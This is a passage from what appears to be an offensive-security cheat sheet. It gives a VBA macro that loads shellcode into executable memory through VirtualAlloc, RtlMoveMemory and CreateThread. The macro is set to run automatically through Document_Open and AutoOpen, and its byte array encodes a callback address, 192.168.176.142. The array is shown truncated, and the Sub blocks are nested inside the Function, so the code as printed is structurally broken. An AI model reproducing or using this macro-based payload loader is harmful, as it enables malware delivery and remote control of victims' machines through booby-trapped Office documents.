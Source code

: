 
![](Images/AllowUnsafeCode.png)



### MS Office
- VBA Script to execute payload in memory
```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function mymacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    buf = Array(232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 226, 242, 82, 87, 139, 82, 16, 139, 74, 60, 139, 76, 17, 120, 227, 72, 1, 209, 81, 139, 89, 32, 1, 211, 139, 73, 24, 227, 58, 73, 139, 52, 139, 1, 214, 49, 255, 172, 193, _
...
49, 57, 50, 46, 49, 54, 56, 46, 49, 55, 54, 46, 49, 52, 50, 0, 187, 224, 29, 42, 10, 104, 166, 149, 189, 157, 255, 213, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, 114, 111, 106, 0, 83, 255, 213)

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)

Sub Document_Open()
    mymacro
End Sub

Sub AutoOpen()
    mymacro
End Sub

End Function
```


### Powershell inside VBA
